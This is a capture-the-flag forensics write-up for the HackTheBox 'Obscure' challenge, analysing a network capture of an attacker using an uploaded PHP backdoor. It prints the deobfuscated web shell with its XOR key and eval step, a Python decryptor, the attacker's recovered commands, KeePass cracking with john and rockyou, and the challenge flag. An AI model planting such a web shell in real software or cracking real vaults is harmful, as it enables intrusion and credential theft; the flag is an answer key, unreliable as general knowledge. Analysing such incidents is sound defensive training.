 # [HackTheBox - Obscure](https://app.hackthebox.com/challenges/Obscure)
Created: 21/07/2024 12:28
Last Updated: 21/07/2024 15:11
***
**DIFFICULTY**: Easy
**CATEGORY**: Forensics
**CHALLENGE DESCRIPTION** 
An attacker has found a vulnerability in our web server that allows arbitrary PHP file upload in our Apache server. Suchlike, the hacker has uploaded a what seems to be like an obfuscated shell (support.php). We monitor our network 24/7 and generate logs from tcpdump (we provided the log file for the period of two minutes before we terminated the HTTP service for investigation), however, we need your help in analyzing and identifying commands the attacker wrote to understand what was compromised.
***
## Where should we start?
![38f9637ba2f5cb373000a1d33897a254.png](../../../../_resources/38f9637ba2f5cb373000a1d33897a254.png)

Lets take a look of what we have right now, we have 3 files which are
- `19-05-21_22532255.pcap`, this should be the main file that we are going to investigate
- `support.php` contains obfuscated php script 
![5fce14aa0ef54e9969fb16973dd2ebd1.png](../../../../_resources/5fce14aa0ef54e9969fb16973dd2ebd1.png)
- `to-do.txt` contains text which is the same as challenge description so we can skip this one

## Unravel obfuscated php script
![4f74c320982c49db68ecab9dbb5c4525.png](../../../../_resources/4f74c320982c49db68ecab9dbb5c4525.png)

Paste obfuscated php code to https://www.unphp.net/ then we will have some variables and functions restored

![3bdd6be2c643d6b80764cd5b1b4e8b0f.png](../../../../_resources/3bdd6be2c643d6b80764cd5b1b4e8b0f.png)

Next, we can use CyberChef "Generic Code Beautiy" recipe to beautify it and now we can carefully review what this script does

Here a script with comments explaining every steps by ChatGPT
```
// Key and marker definitions
$k = "80e32263";            // XOR encryption key
$kh = "6f8af44abea0";        // Start marker for the encrypted payload in the input
$kf = "351039f4a7b5";        // End marker for the encrypted payload in the input
$p = "0UlYyJHG87EJqEz6";     // Prefix used in the response

// Function for XOR encryption/decryption
function x($t, $k) {
    $c = strlen($k);         // Length of the key
    $l = strlen($t);         // Length of the text to be encrypted/decrypted
    $o = "";                 // Output string

    // Loop through each character of the text
    for($i = 0; $i < $l; ) {
        // Loop through each character of the key
        for($j = 0; ($j < $c && $i < $l); $j++, $i++) {
            // XOR each character of the text with the key
            $o .= $t[$i] ^ $k[$j];
        }
    }

    return $o;               // Return the result
}

// Check if the input contains the markers and extract the payload
if (@preg_match("/$kh(.+)$kf/", @file_get_contents("php://input"), $m) == 1)  {
    @ob_start();             // Start output buffering

    // Decode, decrypt, and decompress the payload, then execute it
    eval(@gzuncompress(@x(base64_decode($m[1]), $k)));

    $o = @ob_get_contents(); // Get the output of the executed payload
    @ob_end_clean();         // End output buffering and clean it

    // Compress, encrypt, and encode the output
    $r = @base64_encode(@x(@gzcompress($o), $k));

    // Print the result with the markers
    print("$p$kh$r$kf");
}
```

So we need to making some sense of request that an attacker sent to a server and response of a server to that request so I told ChatGPT make me a script to decrypt them here
```
import base64
import re
import zlib

def xor_decrypt(data, key):
    """
    Decrypts the given data using the XOR cipher with the provided key.
    """
    key_len = len(key)
    data_len = len(data)
    decrypted = bytearray(data_len)
    
    for i in range(data_len):
        decrypted[i] = data[i] ^ key[i % key_len]
    
    return bytes(decrypted)

def decrypt_input(encrypted_data, key, kh, kf):
    """
    Decrypts the input data following the pattern defined by the markers kh and kf.
    """
    # Extract the base64 encoded and encrypted payload using regex
    match = re.search(f"{kh}(.+){kf}", encrypted_data)
    if match:
        b64_encrypted_payload = match.group(1)
    else:
        print("No valid data found")
        return None
    
    # Add padding to the base64 string if necessary
    missing_padding = len(b64_encrypted_payload) % 4
    if missing_padding:
        b64_encrypted_payload += '=' * (4 - missing_padding)
    
    # Base64 decode the encrypted payload
    try:
        encrypted_payload = base64.b64decode(b64_encrypted_payload)
    except Exception as e:
        print(f"Base64 decoding error: {e}")
        return None

    # XOR decrypt the payload
    decrypted_payload = xor_decrypt(encrypted_payload, key.encode())

    # Decompress the payload
    try:
        decompressed_payload = zlib.decompress(decrypted_payload)
        return decompressed_payload.decode()
    except zlib.error as e:
        print(f"Decompression error: {e}")
        return decrypted_payload.decode()

def main():
    # Define the markers and key
    kh = "6f8af44abea0"
    kf = "351039f4a7b5"
    key = "80e32263"
    
    while True:
        encrypted_data = input("Enter the encrypted data: ").strip()
        if not encrypted_data:
            break
        
        decrypted_data = decrypt_input(encrypted_data, key, kh, kf)
        if not decrypted_data:
            print("Failed to decrypt data.")
        else:
            print("Decrypted data:", decrypted_data)
        
        # Ask the user if they want to decrypt more data
        choice = input("Do you want to decrypt more data? (yes/no): ").strip().lower()
        if choice == 'no':
            break

if __name__ == "__main__":
    main()
```

## Following the PCAP
Now its time to dig into a pcap file and see what happened during that time

![f0080dda4bfde86221b468531b6bb3f2.png](../../../../_resources/f0080dda4bfde86221b468531b6bb3f2.png)

We can see that at the start of this pcap, an attacker used `/upload.php` to upload malicious php script to server

![223c87f7b223bb1ffa70ee49dc2c33f0.png](../../../../_resources/223c87f7b223bb1ffa70ee49dc2c33f0.png)

By using `http contains "support.php"`, we will have only 4 HTTP streams to investigate which are
- HTTP stream of packet number 20
![84e66a2d4ace7ea24e74129db21a27df.png](../../../../_resources/84e66a2d4ace7ea24e74129db21a27df.png)
Threat Actor changing directory to `/var/www/html/uploads` then use `id` to display current user information which responded back with `www-data`
- HTTP stream of packet number 426
![3996e36925417994480253f175be59fe.png](../../../../_resources/3996e36925417994480253f175be59fe.png)
Threat Actor changing directory to `/var/www/html/uploads` then uses `ls -lah /home/* 2>&1` to list all files and subdirectories in `/home/` directory which we can see that there is a password vault for KeePass in `/home/developer`
- HTTP stream of packet number 442
![231924849eda16dc02177a0719b1fca6.png](../../../../_resources/231924849eda16dc02177a0719b1fca6.png)
Threat Actor changing directory to `/home/developer` and confirms that he got the right directory 
- HTTP stream of packet number 462
![3c0e602c3c9c3c4bf7bf39fd914ac9b7.png](../../../../_resources/3c0e602c3c9c3c4bf7bf39fd914ac9b7.png)
Then threat actor finally exfiltrated KeePass password vault file in base64 format

![fc963a035e83cfc04d3dbe9ad4d18d60.png](../../../../_resources/fc963a035e83cfc04d3dbe9ad4d18d60.png)
So we know whats going on now, we just have to restore KeePass password vault file and Im doing this with CyberChef

![e960dc05f2e6ff6b1383eccdb604e95b.png](../../../../_resources/e960dc05f2e6ff6b1383eccdb604e95b.png)
But we could not open this file without master password or key file so we have to figure it out how to obtain either one of them first

## Breaking the vault
![ba221efc39721e2d46f2d912349194b6.png](../../../../_resources/ba221efc39721e2d46f2d912349194b6.png)

Luckily for us we can use `keepass2john` and `john` to bruteforcing possible password from `rockyou.txt` wordlist which we can see that we found master password to unlock password vault

![56d4598ba843a564593b54307f16c11c.png](../../../../_resources/56d4598ba843a564593b54307f16c11c.png)

Now we can open password vault and obtain a flag which is the password of this user 

## Submit a flag
```
HTB{pr0tect_y0_shellZ}
```

![92a912ee61c7cb1b30bd51487bacb61f.png](../../../../_resources/92a912ee61c7cb1b30bd51487bacb61f.png)
***
